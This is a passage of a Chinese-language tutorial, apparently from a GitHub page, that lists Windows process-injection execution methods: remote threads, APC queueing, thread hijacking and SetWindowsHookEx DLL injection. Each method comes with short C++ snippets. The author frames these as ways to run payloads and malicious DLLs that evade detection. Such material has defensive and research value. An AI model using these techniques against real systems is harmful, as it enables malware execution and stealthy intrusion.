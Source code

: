 ```cpp
HANDLE h = OpenProcess(PROCESS_CREATE_THREAD,FALSE,process_id);
CreateRemoteThread(h,NULL,0,(LPTHREAD_START_ROUTINE)LoadLibraryA,target_DLL_path,0,NULL);
```

3. **CreateRemoteThread执行方法** 
与上一种的不同只是thread直接执行payload
a. 使用任何一种写方法将代码数据写入到内存当中. 
b. 使用CreateRemoteThread执行代码(需要CFG有效目标)  
````
HANDLE h = OpenProcess(PROCESS_CREATE_THREAD, FALSE, process_id);
CreateRemoteThread(h, NULL, 0, (LPTHREAD_START_ROUTINE)target_execution,RCX,0,NULL);
````

4. **APC执行方式**  
线程必须处于惊醒状态.i.e. in one of 5 functions: SleepEx, WaitForSingleObjectEx, WaitForMultipleObjectsEx, SignalObjectAndWait, MsgWaitForMultipleObjectsEx (probably RealMsgWaitForMultipleObjectsEx). 
a. 将数据使用任何一种写方式写入到目标进程当中. 
b. 使用QueueUserAPC/NtQueueApcThread执行目标代码.   
``````
HANDLE h = OpenThread(THREAD_SET_CONTEXT,FALSE,thread_id);
QueueUserAPC((LPTHREAD_START_ROUTINE)target_execution,h,RCX);
//or
ntdll!NtQueueApcThread(h,(LPTHREAD_START_ROUTINE)target_execution,RCX,RDX,R8);
``````

5. **线程劫持执行方法"Suspend-Inject-Resume"** 
a. 使用任何一种写内存的方式将数据写到目标位置,例如,VirtualAllocEx(…,PAGE_EXECUTE_READWRITE)+WriteProcessMemory (not shown). 
b. 使用SetThreadContext去执行代码 (目标线程需要被挂起再恢复) – 将RIP设置为被写入的代码或者一个ROP链位置.  
变式:使用NtQueueApcThread(thread,SetThreadContext,-2,context,NULL)去代替  
但是这种方式需要在payload中去恢复劫持前的环境.  
````
HANDLE t = OpenThread(THREAD_SET_CONTEXT,FALSE,thread_id);
SuspendThread(t);
CONTEXT ctx;
ctx.ContextFlags = CONTEXT_CONTROL;
ctx.Rip = (DWORD64)target_execution;
SetThreadContext(t,&ctx);
ResumeThread(t);
````

6. **使用windows Hook函数去执行**  
a. 将恶意dll文件写入磁盘. 
b. 使用SetWindowsHookEx(…,handle to DLL, thread_id) 这将会使dll加载到进程当中(线程中必须有一个消息循环).有一个不太优雅的方式,将thread_id设为0 会注入所有的进程消息循环当中.  
`````
HMOUDLE h = LoadLibraryA(dll_path);
HOOKPROC f = (HOOKPROC)GetProcAddress(h,"GetMsgProc");
SetWindowsHookExA(WH_GETMESSAGE, f, h, thread_id);
PostThreadMessage(thread_id,WM_NULL,NULL,NULL);
`````


以上写的都是写比较通用的写和执行方式,但是由于太过经典被广泛使用导致被检测的可能性极高,之后还有更多更先进更新颖的方式在学习完后继续分享.  

